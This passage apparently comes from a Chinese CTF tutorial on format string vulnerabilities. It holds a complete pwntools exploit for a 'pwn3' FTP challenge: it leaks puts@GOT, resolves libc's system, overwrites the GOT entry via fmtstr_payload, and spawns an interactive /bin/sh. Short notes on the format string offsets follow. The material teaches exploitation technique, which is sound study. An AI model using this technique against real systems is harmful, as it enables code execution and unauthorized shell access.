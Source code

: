 ```python
def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

注意

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。
- 这里我利用了 pwntools 中的 fmtstr\_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr\_payload(7, {puts\_got: system\_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts\_got 地址处写入 system\_addr 地址。默认情况下是按照字节来写的。

## hijack retaddr
